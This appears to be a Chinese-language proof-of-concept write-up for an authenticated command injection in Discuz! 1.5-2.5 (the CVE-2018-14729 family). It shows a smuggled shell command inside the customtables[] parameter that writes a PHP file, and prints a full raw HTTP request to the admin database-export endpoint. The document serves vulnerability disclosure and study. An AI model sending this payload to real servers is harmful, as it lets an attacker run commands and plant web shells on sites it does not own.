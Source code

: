 ## Affected Version  

 **Discuz! 1.5-2.5**

## POC

需要登入后台。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/new/Snip20181220_14.png)
![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/new/Snip20181220_15.png)

修改的参数

参数`customtables[]`

    customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

数据包

    POST /discuz25/admin.php?action=db&operation=export&setup=1 HTTP/1.1
    Host: localhost
    Content-Length: 252
    Cache-Control: max-age=0
    Origin: http://localhost
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost/discuz25/admin.php?action=db&operation=export
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: _ga=GA1.1.994534325.1530166127; PHPSESSID=ffe1069f199ac7656303b61e42db4f5d; ECSCP_ID=e685eee56d5dc4a732b0b1ecb8cbac6becac2355; ECS_ID=b9e7920dfb02c84b5298d0022c64a8fc393376d7; Phpstorm-326452dc=558db1bc-7f7b-4670-8d36-9cef7d8c1b9d; ECS[visit_times]=8; 3Od_visitedfid=2; 3Od_auth=03d3WSoYgxBuC4Yg3mqq4yEVgLBDsrbNx%2F8rIcURpRI5sDFtpC1S9F%2BYa6BViyFggZYM7bac7evIAZJdgLOJ7Q; 3Od_sid=mm4AMQ; QoOR_2132_saltkey=V6AnRzmw; QoOR_2132_lastvisit=1545183584; QoOR_2132_widthauto=-1; R94S_2132_saltkey=1hs56u42; R94S_2132_lastvisit=1545220172; R94S_2132_promotion=1; R94S_2132_auth=75696lGYV1FEogy00DO%2FmyhWbxk8OljAPZAeSvxfgwvvLbMruyS2sfVSYZUG4wr3GYw5L66%2FfppgB9gzioss; R94S_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; R94S_2132_creditbase=0D0D1D0D0D0D0D0D0; R94S_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; R94S_2132_ulastactivity=e0adnKO8pY2qUt5XPBdVc3jbgQxCrCiAkAFzNuN%2Fu9wTbgHc7XLK; R94S_2132_sid=9H4E8j; R94S_2132_lastact=1545224711%09admin.php%09; QoOR_2132_sid=BdGwL9; QoOR_2132_sendmail=1; QoOR_2132_ulastactivity=9cf4%2B3XCcfF1uHee0LOFG0wa6FFvCc1Rp96Kg%2BkgOi%2FL7ovDRKru; QoOR_2132_auth=32d7SwpKowF2VAeqfqe0dWo1FjINHjZA9zt%2ByF8A7LOif0pFSaHnEznijiCaqgsQD8NSBtEiwEDL4Wrnx1gz; QoOR_2132_checkpatch=1; QoOR_2132_checkupgrade=1; QoOR_2132_lastact=1545224853%09admin.php%09
    Connection: close
    
    formhash=0d2eaac0&scrolltop=&anchor=&type=custom&customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #&method=shell&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=181219_u0CC19kJ&exportsubmit=%E6%8F%90%E4%BA%A4




## References
https://paper.seebug.org/763/

https://github.com/FoolMitAh/CVE-2018-14729




